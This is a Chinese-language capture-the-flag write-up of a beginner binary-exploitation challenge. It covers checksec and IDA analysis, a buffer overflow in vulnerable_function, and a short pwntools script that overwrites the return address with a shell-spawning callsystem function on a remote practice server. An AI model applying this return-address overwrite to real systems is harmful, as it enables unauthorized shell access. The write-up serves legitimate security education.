 1、首先使用file命令查看文件类型，发现是64位的ELF文件，并且是链接类型是动态链接

![](https://pic1.zhimg.com/80/v2-68ec60bda0b0fb5016520dff548ffe70_720w.webp)

2、使用checksec查看文件开启了哪些保护，发现重定位表可读，未开启堆栈保护，未开启地址空间随机化，很有可能是堆栈溢出的题目。

![](https://pic4.zhimg.com/80/v2-4ab573dd6be969d59886cf75db9597df_720w.webp)

3、将./ 3-level拖到ida64中，观察发现这个main函数采用的是fastcall的调用约定，没有发现异常，继续进入vulnerable_function()。

![](https://pic2.zhimg.com/80/v2-831fbf466cd9db9c1058bc0f3c3f59a5_720w.webp)

4、进入vulnerable_function()后，有一个向缓冲区读数据的read函数，就没有后续了。

![](https://pic1.zhimg.com/80/v2-6b96954613e072060023dfb7d3437b78_720w.webp)

5、从main函数进去有发现可以得到flag的地方，于是在函数栏中看看其他函数，发现有一个名为callsystem的函数，它可以调用shell。

![](https://pic3.zhimg.com/80/v2-d33b956e39ee847c9c6c0c3c7fc41e0a_720w.webp)

6、因此可以借助vulnerable_function()的read函数，将缓冲区填充满，再将ebp+0x8即eip所在的地址覆盖为callsystem函数地址，即可得到shell。通过pwndbg的print函数查看callsystem函数的地址为0x400596.

![](https://pic4.zhimg.com/80/v2-1029d26bb8ac309726a3fc2fa83f519b_720w.webp)

7、回到vulnerable_function()函数，查看到buf的地址为rbp-0x80，

![](https://pic4.zhimg.com/80/v2-de5468f4f97b5631d56478a10e7a38af_720w.webp)

8、堆栈图如下所示，填充到rbp需要0x88个字节，再将callsystem的地址即0x400596覆盖到rip的位置即可

![](https://pic3.zhimg.com/80/v2-e6c204534b18a7f702f9b5aa1a37955e_720w.webp)

9、exp编写

```text
from pwn import *							
#p=process('./3-level0')#启动本地程序进行交互
p=remote('111.200.241.244','61154')
p.recvuntil("Hello, World\n")#接受程序发送的字符串
		
payload=('a'*0x88).encode()+p64(0x400596)#用88字节填充缓冲区,再将打包calsystem函数地址成64位覆盖rip位置，造成缓冲区溢出	
	
p.sendline(payload)#将payload发送给程序	
				
p.interactive()#进入交互界面	
```

10、运行exp，得到了shell，输入cat flag，成功拿到flag

![](https://pic4.zhimg.com/80/v2-3beb6ca0da55860845d4f6dfd3687e7b_720w.webp)

![](https://pic4.zhimg.com/80/v2-d963c79689bb70cf2fd5b462dfff6563_720w.webp)
